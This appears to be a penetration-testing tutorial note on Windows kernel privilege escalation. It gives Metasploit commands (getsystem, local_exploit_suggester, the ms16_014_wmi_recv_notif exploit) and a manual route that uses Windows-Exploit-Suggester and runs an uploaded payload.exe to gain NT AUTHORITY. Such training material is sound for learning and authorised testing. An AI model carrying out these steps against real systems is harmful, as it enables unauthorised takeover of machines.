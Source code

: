 # 1 - Windows Kernel Exploitation

### **Windows Kernel**

* A Kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
* **Windows NT** is the kernel that comes pre-packaged with all version of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consists of two main modes of operation that determine access to system resources and hardware:
  * User Mode - Programs and services running in user mode have limited access to system resources and functionality.
  * Kernel Mode - Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

### **Windows Kernel Exploitation**

* Kernel exploits on Windows will typically target vulnerabilities in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
* This process will differ based on the version of Windows being targeted and the kernel exploit being used.
* Privilege escalation on Windows systems will typically follow the following methodology:
  * Identifying kernel vulnerabilities.
  * Downloading, compiling and transferring kernel exploits onto the target system.

### **Tools & Environment**

* **Windows-Exploit-Suggester** - This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploit and Metasploit modules available for the missing bulletins.
  * GitHub: [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* **Windows-Kernel-Exploits** - Collection of Windows Kernel exploits sorted by CVE.
  * GitHub: [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135)



## **Practical Demonstration**

### Metasploit Exploitation

```bash
# Method 1
# Using Inbuilt cmd to evevate Privilege in a Meterpreter Session.
# it goes through a plateral of techniques in order to elevate our priv.
getsystem

# Method 2
# Metasploit module that enumerate vuln that can help us excalate our priv.
# step 1
search suggester  # works for both windows and linux.
# Enumerate vulnerabilites and correspondant msf modules for the target system (after gaining access).
use post/multi/recon/local_exploit_suggester
options
set SESSION 3  # it requires you select a meterpreter session for priv esc.
run  # Choose an exploit and enjoy!
# you can research on each of the exploits to know the one that works best based on you victim OS version.

# step 2
# in our own case we select the "ms16_014_wmi_recv_notif" xploit.
use exploit/windows/local/ms16_014_wmi_recv_notif
# it uses the default payload of 64bit.
options
set SESSION 3
set LPORT 4422
exploit

# we get a privileged meterpreter session
getuid  # we are NT AUTHORITY
```



### Mannual Exploitation

#### Step 1

Start by cloning Windows-Exploit-Suggester onto your VM.

Then run `shell` - to get a cmd prompt shell session on the victim PC.

Then run `systeminfo` - in the cmd prompt session.&#x20;

Copy-paste the results in a .txt file in your kali.

#### Step 2

`./windows-exploit-suggester.py` --update  - Download an updated vulnerability database in your kali.

`./windows-exploit-suggester.py --database <Latest_database.xls> --systeminfo <TXTfile>` - this runs the script and list every vulnerability of the target machine.

> \[E] -> exploitdb PoC.
>
> \[M] -> Metasploit module available.
>
> \[\*] -> Missing Bulletin.

Choose an exploit and enjoy!

You can search the suggested exploit from the SecWiki windows exploit lists.

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

#### Step 3

Copy the .exe executable payload to the target "/Temp" dir.

`cd C:\Temp` - in the low access meterpreter shell session.

`upload ~/payload.exe` - upload the payload.

`shell` - gives us a cmd prompt shell session, `ls` - to verify its uploaded.

`.\payload.exe` - to launch.

`whoami` - we get NT AUTHORITY..

